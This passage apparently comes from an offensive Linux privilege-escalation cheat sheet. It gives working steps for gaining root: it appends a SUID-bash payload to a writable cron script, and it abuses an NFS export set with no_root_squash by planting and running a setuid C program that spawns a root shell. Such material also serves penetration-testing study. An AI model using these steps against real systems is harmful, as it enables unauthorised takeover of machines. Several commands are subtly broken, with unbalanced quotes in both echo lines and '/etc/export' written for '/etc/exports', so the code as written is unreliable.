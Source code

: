 
### *Cron File Overwrites*

*Overwrite / append a script used in a crontask with malicious code if we have rw access to it.*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash >> <PATH OF OVERWRITEABLE FILE>/<OW FILE>.sh
 
 ## [NFS ROOT SQUASHING]
 
*Look for mountable drives that could be used to privesc*

> **Victim machine**

Hunt for folders

    cat /etc/export

Let's take the example of a `/tmp` directory with the `no_root_squash` option present.

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

> **Host machine**
 
1. Create a directory where you will mount the `/tmp` directory.
 
    `mount -o rw,vers=2 <IP>:/tmp <PATH TO NEWLY CREATED DIRECTORY>`
    
2. Create a malicious payload inside the mounted directory

```
echo 'echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > <PATH TO MOUNTED DIRECTORY>/x.c    
gcc <PATH TO FILE>/x.c -o <PATH TO FILE>/x
chmod +s <PATH TO FILE>/x
 ```
 
> **Victim machine**

Execute the created file. We will have the same rights as the owner of the mountable `no_root_squash` directory.

 ## [DOCKER]
 
 >WIP
